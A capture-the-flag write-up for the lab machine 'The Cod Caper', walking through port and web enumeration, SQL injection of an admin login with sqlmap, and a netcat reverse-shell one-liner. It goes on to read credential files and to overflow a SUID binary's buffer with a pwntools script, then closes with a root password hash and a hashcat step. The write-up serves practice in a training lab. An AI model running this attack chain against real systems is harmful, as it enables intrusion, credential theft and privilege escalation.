# WriteUp for The Cod Caper
__________________________________________________________________________________________________________

## Host Enumeration

For this we can start our basic enumerations using [nmap](nmap_results).
```
export IP=<ip>
nmap -sC -sV -Pn -oN nmap_results $IP
```
### How many ports are open on the target machine?
2
### What is the http-title of the web server?
Apache2 Ubuntu Default Page: It works
### What version is the ssh service?
OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
### What is the version of the web server?
Apache/2.4.18

______________________________________________________________________________________________________
## Web Enumeration

For this we can use [dirsearch](dirsearch_results).
```
python3 dirsearch -u <url> -e php -x 403 -F
```
### What is the name of the important file on the server?
/administrator.php

________________________________________________________________________________________________________

## Web Exploitation

After visiting /administrator.php we find a login page, we can exploit this using sqlmap.
```
sqlmap -u http://$IP/administrator.php --form --dump
```
```
Database: users
Table: users
[2 entries]
+------------+------------+
| username   | password   |
+------------+------------+
| pingudad 	 | secretpass |
+------------+------------+
```
### What is the admin username?
pingudad
###	What is the admin password?
secretpass
### How many forms of SQLI is the form vulnerable to?
3
```
Parameter: username (POST)
    Type: boolean-based blind
    Type: error-based
    Type: AND/OR time-based blind
```
__________________________________________________________________________________________________________

## Command Execution
We can get a reverse shell on the system 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ip> <port> >/tmp/f
```
### How many files are in the current directory?
3
### Do I still have an account
yes
we can check by 
```
cat /etc/passwd
```
### What is my ssh password?
We can find this by find command.
```
find / -name hidden 2>/dev/null
find / -user www-data 2>/dev/null
```
pinguapingu
__________________________________________________________________________________________________________

## LinEnum
```
scp {path to linenum} {user}@{host}:{path}. Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```
### What is the interesting path of the interesting suid file
We find the file using lipeas in /opt/secret/root
______________________________________________________________________________________________________

## pwndbg

We have the source code of /root file 
```
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"
void shell(){
setuid(1000);
setgid(1000);
system("cat /var/backups/shadow.bak");
}

void get_input(){
char buffer[32];
scanf("%s",buffer);
}

int main(){
get_input();
}
``` 
The SUID file seems to expect 32 characters of input, and then immediately exits, We will examine it with gdb
```
gdb /opt/secret/root
```
* The next step is to test if anything happens when you send more then 32 characters. To do this type r < <(cyclic 50), that command runs the program and provides 50 characters worth of "cyclic" input.

* Cyclic input goes like this: "aaaaaaaabaaacaaadaaaeaaaf".

* It seems that in this case we're able to overwrite EIP, which is known as the instruction pointer. The instruction pointer tells the program which bit of memory to execute next, which in an ideal case would have the program run normally. However, since we're able to overwrite it, we can theoretically execute any part of the program at any time.

* Running cyclic -l 0x6161616c outputs 44, meaning we can overwrite EIP once we provide 44 characters of input.

* Now the next step is to find out exactly where the shell function is in memory so we know what to set EIP to. GDB supports this as well with the disassemble command. Type ```disassemble shell```, and this should pop up.

* Method 1 - Manual conversion:
```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | ./root
```

* Method 2 - Struct:
```
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)' | ./root
```

We can automate this entire process using python
```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```
___________________________________________________________________________________________________________________________________________________

Now that we have the password hashes, we can crack them and get the root password! Recall from the previous outputs that our root password hash is "$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.

hashcat {flags} {hashfile} {wordlist}

